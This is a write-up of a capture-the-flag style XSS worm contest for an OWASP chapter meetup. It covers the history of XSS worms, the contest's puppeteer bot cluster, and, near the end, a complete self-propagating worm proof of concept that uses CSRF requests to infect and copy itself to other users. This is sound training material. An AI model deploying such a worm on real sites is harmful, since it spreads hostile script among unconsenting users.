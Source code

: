 ```yaml
---
layout: post
title: "XSSworm.dev ~ Self-replication contest [write-up]"
date: 2020-12-01 00:00:00 -0000
categories: ['Ethical hacking', 'Tools']
tags: [XSS, worm]
author: vavkamil
---
```


tl;dr: I created "CTF" style challenge for our **[OWASP Czech Chapter Virtual Meeting](https://www.meetup.com/owasp-czech-republic-meetup-group/events/274616231/)**. The goal was to write an XSS worm and score points by infecting 1k virtual users. You can find the source code [here](https://github.com/vavkamil/XSSworm.dev) and read the details in this post.

---

When the whole covid-19 thing started, I was somehow interested in looking at various coronavirus world maps and watching the exponential growth of the pandemic unfold. It reminded me of the (in)famous MySpace; "[Samy worm](https://samy.pl/myspace/tech.html)" by [Samy Kamkar](https://en.wikipedia.org/wiki/Samy_Kamkar). For those of you who never heard about it, it was the first publicly released self-propagating cross-site scripting worm, onto MySpace, in 2005. The worm was able to infect over one million users had run the payload in one day.

Since then, we have seen some other XSS worms, for example, on Yahoo, Twitter or Orkut. But nothing at the scale of The MySpace worm.

In 2008, [@RSnake](https://twitter.com/rsnake?lang=en) published "*[Diminutive XSS Worm Replication Contest](https://web.archive.org/web/20080210014614/http://sla.ckers.org/forum/read.php?2,18790,18790)*" on sla.ckers.org. It was an awesome idea, but there was some [backslash](https://forums.theregister.com/forum/all/2008/01/05/worm_replication_contest/) as well :(

But why am I talking about this? Well, in 2008, I was 12 years old. I didn't know any English yet, but I was lucky enough to be mentored by the best hackers in the Czechia at the time. Couple of months after the RSnake's contest, one member of our community took the idea and created an interface where we could test our XSS worms and compete with others. It looked like this:

![](/assets/img/2020/12/skola.png)

There were 200 bot accounts and we (~4 people) scored points by infecting them with our worms and marking them with our color & nick via CSRF. You can still find the pieces of the original web archived [here](https://web.archive.org/web/20080320190901/http://xsscontest.xf.cz/?action=stats&PHPSESSID=e8b6a4ab2a69f128ed44fa933bb7584e) and the XSS worm source [here](https://web.archive.org/web/20080717202916/http://skola.security-portal.cz/[4194]-XSS-CONTEST-WARRIOR_0x13.txt). It may sound weird, but this "contest" is one of my happiest childhood memories :)

So one evening, when I was checking the coronavirus map, I had a big flashback and immediately started coding the remastered version. The things is, I'm not a developer, so it took quite some time. In May 2020, I had a working Proof of Concept, which looked like this:

![](/assets/img/2020/12/challenge-poc.png)

At that point, I realized that it's *scalable* and I might be able to pull it off and write a CTF style contest for our upcoming OWASP Czech Chapter meeting. I did some research and decided to go with a simple Python Flask application and a cluster of puppeteer workers for the bots.

Then the situation with covid got worse, and we had to postpone the OWASP meeting. We had to postpone multiple times and eventually cancel the whole thing because of the lockdown. On the bright side, I had plenty of time for coding and polishing. So how does it work?

![](/assets/img/2020/12/web.png)

It's somehow simple. The user will register with the nickname and team color. They are then presented with a simple interface to send messages to bots. But here is a catch, each user has a limit of 13 messages which could be sent. Based on the swagger documentation, they need to write the XSS worm, which will leverage two CSRFs. One to change the bot's color and the other to self propagate via the bot's unlimited private messages. The point of a limited number of messages is to force the users to design an efficient infection algorithm, which will spread exponentially.

There is a grid of 1k boxes, which helps to visualize the bots. If they are infected, and by whom. Users are scoring points by infecting and reinfecting the bots and marking them with their team color.

![](/assets/img/2020/12/example.png)

The puppeteer cluster is then reading the last received messages of each bot in a random sequence every X minutes. The cluster code looks like this, it's just going through the array in random order, authenticated with cookies:

```
const { Cluster } = require('puppeteer-cluster');

(async () => {
  const cluster = await Cluster.launch({
    concurrency: Cluster.CONCURRENCY_CONTEXT,
    maxConcurrency: 5,
    // puppeteerOptions: { headless: false },
    // puppeteerOptions: { args: ['--no-sandbox'] },
    timeout: 666,
    monitor: true,
  });

  await cluster.task(async ({ page, data }) => {
    const { url, id } = data;
    await page.setCookie({
      'value':id,
      'domain': 'xssworm.dev',
      'expires': Date.now() / 1000 + 10,
      'name': '31p475~Yr37748-35r0h~7c3rr0C-ID',
      'httpOnly': true
    });
    await page.setCookie({
      'value':'correct-horse-battery-staple',
      'domain': 'xssworm.dev',
      'expires': Date.now() / 1000 + 10,
      'name': 'secret',
      'httpOnly': true
    });
    await page.goto(url);
    await page.waitFor(666);
    //const screen = await page.screenshot();
    // Store screenshot, do something else
  });

  var array = Array.from({length: 1001}, (_, i) => [i, Math.random()]).sort((a, b) => a[1] - b[1]).map(([n, r]) => n)
  for (var i = 0; i < array.length; i++) {
    //console.log(array[i]);
    var url = "https://xssworm.dev/read-message?id="+array[i];
    cluster.queue({url, id:""+array[i]+""});
  // many more pages
  }

  await cluster.idle();
  await cluster.close();
})();
```

There are some basic rules for users. They should be able to write the self-propagating code in just 13 tries. Once their worm hits exponential growth, they should be able to infect most of the victims.

![](/assets/img/2020/12/rules.png)

After the registration, users are present with [Swagger documentation](https://editor.swagger.io/?url=https://raw.githubusercontent.com/vavkamil/XSSworm.dev/main/static/swagger.yaml). They were supposed to write a code, which will send two POST requests, one to change to the color of the victim, the other to replicate its code and spread to another victim. The tricky part was *application/x-www-form-urlencoded*, as most of the contestants struggled to get the encoding right, so either the '+' sign was stripped, or the '#' representing hex value of the color was double encoded.

![](/assets/img/2020/12/swagger.png)

Only one player was able to write the functional self-spreading XSS worm in time and eventually won the whole competition. They designed three different algorithms, as they could register again and resend the updated version to 13 victims.

![](/assets/img/2020/12/interface.png)

There is a lot of things to improve in my code. I used a rather strict Content Security Policy. The whole deployment should be in docker. For more experienced users, XSS protection to bypass would be ideal. The one thing that I struggled with the most was how to prevent a race condition and how to protect the number of messages that the user can send :( But anyway, I'm glad that people enjoyed the challenge, even in those hard times.

Here you can check my Proof of Concept of the worm:

```
<script id="xss_worm">

	// XSS worm .dev
	// Self-replication contest
	// Proof of Concept v1.0

	var victims = 1000;
	var team_color = "#550bb1";
	var url = "https://xssworm.dev";
	var infection_code = "<script id=\"xss_worm\">"+self_propagation()+"<\/script>";

	infect_victim(team_color);

	while (true) {
		var victim_id = get_random_victim(victims);
		spread_infection(victim_id,infection_code);
	}

	function get_random_victim(accounts_count) {
		return Math.floor((Math.random() * accounts_count) + 1);
	}

	function infect_victim(color) {
		var xhr = new XMLHttpRequest();
		var params = "color="+color;
		xhr.open("POST", url+"/update", true);
		xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		xhr.send(params);
	}

	function self_propagation(){
		return document.getElementById("xss_worm").innerHTML;
	}

	function spread_infection(id,infection_code) {
		var xhr = new XMLHttpRequest();
		var params = "id="+id+"&msg="+encodeURIComponent(infection_code);
		xhr.open("POST", url+"/send-message", true);
		xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		xhr.send(params);
	}

</script>
```

You can check and try [the website](https://xssworm.dev), as I will keep the infrastructure alive for a while, or you can deploy it locally, as the whole thing is open-source. I'm a little bit ashamed of my programming skills, but here you go: [https://github.com/vavkamil/XSSworm.dev](https://github.com/vavkamil/XSSworm.dev)
